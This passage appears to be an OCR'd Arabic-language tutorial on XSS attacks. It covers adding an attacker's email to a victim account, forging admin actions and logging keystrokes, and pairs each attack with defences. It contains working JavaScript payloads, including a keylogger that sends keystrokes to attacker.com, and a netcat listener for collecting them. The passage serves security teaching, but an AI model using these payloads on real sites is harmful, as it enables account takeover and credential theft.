 #### 3. **إضافة إيميل جديد للحساب**
   - **إزاي بتحصل؟**
     - السكربت بيبعت طلب لإضافة إيميل جديد (بتاع المهاجم) للحساب، وبعدين يقدر يعمل ريست للباسورد.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var xhr = new XMLHttpRequest();
       xhr.open("POST", "http://vulnerable.com/add-email", true);
       xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
       xhr.send("email=attacker@evil.com");
       ```
       - `XMLHttpRequest`: بيبعت طلب لإضافة إيميل.
     - **اختبار بـ Burp Suite**:
       - اعترض طلب إضافة إيميل، وشوف الـ parameters.
       - استخدم السكربت عشان يعمل نفس الطلب.
     - **إزاي بيحط السكربت؟**
       - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSRF tokens.
     - اطلب تأكيد بالإيميل قبل إضافة إيميل جديد.

#### 4. **تنفيذ إجراءات إدارية (لو الحساب أدمن)**
   - **إزاي بتحصل؟**
     - لو الضحية أدمن، السكربت بيقدر ينفذ إجراءات زي حذف مستخدمين، تغيير إعدادات الموقع، أو الوصول لبيانات حساسة.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var xhr = new XMLHttpRequest();
       xhr.open("POST", "http://vulnerable.com/admin/delete-user", true);
       xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
       xhr.send("user_id=123");
       ```
       - `XMLHttpRequest`: بيبعت طلب لحذف مستخدم (مثلًا).
     - **اختبار بـ Burp Suite**:
       - اعترض طلب إداري، وشوف الـ endpoint (زي `/admin/delete-user`).
       - استخدم السكربت عشان يعمل الطلب.
     - **إزاي بيحط السكربت؟**
       - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSRF tokens.
     - حط صلاحيات صارمة للأدمن (Principle of Least Privilege).
     - اطلب إعادة إدخال الباسورد للإجراءات الحساسة.

#### 5. **تسجيل ضربات المفاتيح لسرقة بيانات تسجيل الدخول**
   - **إزاي بتحصل؟**
     - لو المهاجم مش قادر يستخدم الكوكيز مباشرة، بيستخدم XSS عشان يسجل ضربات المفاتيح (keylogging) ويسرق الباسورد.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript综
       document.addEventListener("keydown", function(e) {
           var key = e.key;
           new Image().src = "http://attacker.com/steal?key=" + encodeURIComponent(key);
       });
       ```
       - `addEventListener("keydown")`: بيراقب ضغطات المفاتيح.
       - `new Image().src`: بيبعت المفاتيح لسيرفر المهاجم.
     - **إعداد سيرفر المهاجم**:
       - netcat:
         ```bash
         nc -lvp 80
         ```